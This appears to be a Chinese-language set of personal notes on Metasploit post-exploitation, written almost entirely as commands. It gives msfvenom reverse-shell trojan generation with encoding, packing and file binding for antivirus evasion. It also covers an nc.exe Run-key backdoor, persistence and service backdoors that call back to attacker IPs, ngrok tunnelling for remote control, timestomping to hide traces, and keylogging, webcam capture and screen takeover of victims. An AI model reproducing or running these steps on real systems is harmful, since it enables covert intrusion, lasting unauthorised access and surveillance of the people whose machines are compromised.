


```
奶奶问孙子：4+1等于几 孙子说：等于6-1。 奶奶说：你明明知道答案，为什么不说？ 孙子说：年轻人不讲5的……..
```


### 后渗透阶段

#### 保存脚本

1.避免重复设置

```
makerc file  #会保存再msf得命令再文件
resource file #载入资源脚本
```

2.

```shell
msfvenom -p windows/meterpreter/reverse_tcp -a x86 --platform LHOST=XXX LPORT=XXX -e x86/shikata_ga_nai -i 12 -b '\x00\' PrependMigrate=true PrependMIgrateProx=svchost.exe  -f c > /root/Desktop/shellcode.c

这里我们生成的windows，我们选择的是windows/meterpreter/reverse_tcp,LHOST是代理(远程)服务器的ip，LPORT是远程（代理）服务器的端口，-e x86/shikata_ga_nai -i 15是用 -e x86/shikata_ga_hai编码15次，而PrependMigrate=true PrependMIgrateProx=svchost.exe是使这个程序会默认迁移到svchost.exe进程，自己测试的时候和不建议到这个进程而是其他的持久的进程，这样子别人打开之后就无法再常规的去关闭回连的会话。当然你还可以使用windows/meterpreter/reverse_tcp_rc4这个payload，对会话进行加密，增加免杀能力
```

```

```


cmd命令

```
1）开启3389端口：

在cmd内，执行如下命令，即可开启3389端口。

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 00000000 /f

2）关闭3389端口：

在cmd内，执行如下命令，即可关闭3389端口。

REG ADD HKLM\SYSTEM\CurrentControlSet\Control\Terminal" "Server /v fDenyTSConnections /t REG_DWORD /d 11111111 /f
```


#### 内网渗透

```shell
#可以先使用run get_local_subnets命令查看已拿下的目标主机的内网IP段情况
run  get_local_subnets 

```


```
按提示使用的post有点难于理解
```


#### 技巧

```
background #回到msf中
sessions -i ##查看会话
sessions -i 6 ###回到第几个会话
```

```
meterpreter的多通信通道
meterpreter >>channel -l  #列出所有可用通信通道
meterpreter >>channel -r 1
meterpreter >>edit c:\\test.txt 修改文件
meterpreter >>enumdesktop #列出可以访问的桌面
meterpreter >>getdesktop #列出当前桌面的相关信息
meterpreter >>webcam_snap  #拍摄一张照片

```

migrate：这个也是一个post模块。可以将meterpreter当前的进程移动到其他指定的进程中，这样做的好处是可以给meterpreter一个相对稳定的运行环境，同时可以很好的躲避杀软。

```
meterpreter > run post/windows/manage/migrate
```

```
meterpreter >keyboard_send hello

meterpreter > run vnc  #打开vnc
meterpreter > run screen_unlock # 屏幕解锁
meterpreter > Connected to RFB server ,using protocol version 3.8
```


```
meterpreter >execute  -H -i -f cmd.exe #隐藏交互和shell一样
```

#### 后门植入

##### nc 后门

```shell

upload /usr/share/windows-binaries/nc.exe C:\\windows\\system32 #上传nc
reg enumkey -k HKLM\\software\\microsoft\\windows\\currentversion\\run   #枚举run下的key
reg setval -k HKLM\\software\\microsoft\\windows\\currentversion\\run -v lltest_nc -d 'C:\windows\system32\nc.exe -Ldp 443 -e cmd.exe' #设置键值
reg queryval -k HKLM\\software\\microsoft\\windows\\currentversion\\Run -v lltest_nc   #查看键值
 
nc -v 192.168.159.144 443  #攻击者连接nc后门
#下次开机就可以实现重启
```

metasploit自带的后门有两种方式启动的，一种是通过启动项启动(persistence)，一种是通过服务启动(metsvc)，另外还可以通过persistence_exe自定义后门文件。

##### persistence启动项后门

在C:\Users***\AppData\Local\Temp\目录下，上传一个vbs脚本
在注册表HKLM\Software\Microsoft\Windows\CurrentVersion\Run\加入开机启动项

```shell
run persistence –h  #查看帮助
run persistence -X -i 5 -p 6661 -r 192.168.159.134
#-X指定启动的方式为开机自启动，-i反向连接的时间间隔(5s) –r 指定攻击者的ip
run persistence -X -i 5 -p 378 -r 120.78.180.104
```


```
msf > use exploit/multi/handler
msf > set payload windows/meterpreter/reverse_tcp
msf > set LHOST 192.168.0.1
msf > set LPORT 3389
msf > exploit
提前启动，等待主机连接
```

2)**metsvc服务后门**

在C:\Users***\AppData\Local\Temp\上传了三个文件（metsrv.x86.dll、metsvc-server.exe、metsvc.exe），通过服务启动，服务名为meterpreter

```
run metsvc –h   # 查看帮助
run metsvc –A   #自动安装后门
```

[](https://xzfile.aliyuncs.com/media/upload/picture/20180806232243-9060162a-998c-1.png)
[](https://xzfile.aliyuncs.com/media/upload/picture/20180806232243-9077bb4a-998c-1.png)

**连接后门**

```
msf > use exploit/multi/handler
msf > set payload windows/metsvc_bind_tcp
msf > set RHOST 192.168.159.144
msf > set LPORT 31337
```


 #### 开启内网穿透

这步是为了实现**正向shell**,或则进行内网ip:port的一个转发，实现攻击内部主机

```
upload 【一个内网穿透软件】（小米球）
ngrok.exe -config ngrok.conf -log=ngrok.log start %tuns%
upload 【一个又后门的服务】
...

```

#### meterpert命令

```
download 下载文件与文件夹
upload 上传文件
getwd 获取当前工作目录
screen_share 查看桌面
run vnc 打开vpn可以实时查看桌面
getsystem 获取系统权限

```

#### 修改文件时间

```
meterpreter >>timestomp -v config.txt #显示详细时间
meterpreter >>timestomp -z "11/26/1999 15:15:25"  config.txt
#修改文件属性
meterpreter >>timestomp -b config.txt#将文件信息清空
```



#### 木马控制

```
#木马生成
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ngrok2.xiaomiqiu.cn
LPORT=14444 -f exe -o usertest.exe
#加壳
使用
upx -5 usertest.exe
```

#### 木马捆绑

```
msfvenom -p windows/meterpreter/reverse_tcp LHOST=ngrok2.xiaomiqiu.cn LPORT=738 -e x86/shikata_ga_nai -x load.exe -i 5 -f exe -o kunbang.exe


-x 捆绑木马
```

#### 木马免杀

```
见木马与免杀
```

用小米球tcp进行远程控制




开启tcp


lhost使用这个ip
那么就可是实现远程控制

```
user exploit/mutil/handler
set payload windows/metepreter/reverse_tcp


```


#### 解决shell乱码

```
1.乱码问题的原因是window和linux采用编码方式不同，从而导致乱码，我们可以在终端修改编码方式为GBK即可。


2.chcp 65001 把shell改为utf-8
chcp查看当前编码 936代表gbk
```

#### 提权

根据刚才的提示找到上述提供的PID的进程，我们这里就随意找了一个SYSTEM权限进行的进程，PID为3240
然后我们要用到migrate命令，将当前会话进程迁移到一个指定的进程ID

```
migrate -P 3240
```

#### 键盘监听

```
Meterpreter还可以在目标设备上实现键盘记录功能，键盘记录主要涉及以下三种命令：

keyscan_start：开启键盘记录功能

keyscan_dump：显示捕捉到的键盘记录信息

keyscan_stop：停止键盘记录功能

uictl enable keyboard/mouse#接管目标主机的键盘和鼠标。

meterpreter > keyscan_start #针对远程目标主机开启键盘记录功能

Starting the keystroke sniffer...

meterpreter > keyscan_dump #存储目标主机上捕获的键盘记录

Dumping captured keystrokes...

dir <Return> cd<Ctrl> <LCtrl>

meterpreter > keyscan_stop #停止针对目标主机的键盘记录

Stopping the keystroke sniffer...
```


渗透后设置永久访问权限，需要在Meterpreter命令行中运行如下命令：

```bash
run metsvc -A
```


